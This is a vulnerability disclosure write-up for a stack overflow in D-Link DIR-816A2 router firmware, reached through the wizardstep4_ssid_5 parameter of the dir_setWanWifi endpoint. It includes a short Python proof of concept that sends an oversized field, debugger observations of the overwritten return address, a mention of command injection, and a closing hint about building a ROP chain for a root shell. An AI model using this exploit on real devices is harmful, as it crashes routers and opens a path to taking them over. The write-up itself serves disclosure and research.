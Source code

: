 # Affected Version

Dlink DIR-816A2\_FWv1.10CNB05.

# Vulnerability Description

Dlink DIR-816A2\_FWv1.10CNB05 was discovered to contain a stack overflow via parameter wizardstep4\_ssid\_5.

# Firmware download address

Manufacturer's address: <https://www.dlink.com/>

Firmware download address: [D-Link Technical Support (dlink.com.cn)](http://www.dlink.com.cn/techsupport/AllPro.aspx)

![image.png](https://note.youdao.com/yws/res/18518/WEBRESOURCEea363faad47f4978b40760dd3b47aacc)

# Vulnerability Details

From the following, we can see that there are two places where our input parameters wizardstep4\_ssid\_2 and wizardstep4\_ssid\_5 are written into v25 respectively, and there is no length limit. Every time we write our parameters to v25, we perform a doSystem operation, which allows for command injection through both parameters, as we mentioned in the previous article.

Here we focus on v19 and v20, which are respectively written into v25 without length restrictions, which can cause stack overflow. Due to repeated writes into a buffer, we have decided to cause overflow when v20 is written into v25.

![image.png](https://note.youdao.com/yws/res/18553/WEBRESOURCE2c8e154cb56ae2fbed689b71023c0cd1)

![image.png](https://note.youdao.com/yws/res/18556/WEBRESOURCE93b765ae455000466fe26437a72bd4f9)

# Recurring vulnerabilities and POC

```python
import requests

url = "http://192.168.1.25/goform/dir_setWanWifi"

data = {
    'connecttype':'DHCP',
    'statuscheckpppoeuser':'0',
    'wizardstep4_ssid_2':'123456',
    'wizardstep4_ssid_5':'a'*1000
}

response = requests.post(url,data=data)
```

The following is the result in gdb after sending POC:

Firstly, execute sprintf to write parameter A to v25, corresponding to the circled part in IDA:

![image.png](https://note.youdao.com/yws/res/18562/WEBRESOURCEdcf2a5fde25be47ec475f64286d63450)

![image.png](https://note.youdao.com/yws/res/18564/WEBRESOURCE6509ffee9752dcc10681fb112e013edf)

The result returned by sprintf is 0x3fe, indicating that our parameters were successfully written into v25.

![image.png](https://note.youdao.com/yws/res/18569/WEBRESOURCE73c4ac359ea610a28534d4b7f810213d)

Continuing with the following execution until the function reaches its end, it can be observed that the return address has been overwritten as' aaaa '.

![image.png](https://note.youdao.com/yws/res/18572/WEBRESOURCEea2b037dd598cb8bf8f7ad86bcc74f0c)

Continuing to run will cause the program to crash.

![image.png](https://note.youdao.com/yws/res/18577/WEBRESOURCE90ea7fc4dac3bbbb064d9f53d049f690)

Entering again will result in no response.

![image.png](https://note.youdao.com/yws/res/18580/WEBRESOURCE8b134ab355477db99cc0064c6b1c794d)

And you can write your own exp(ROP gadget) to get the root shell.
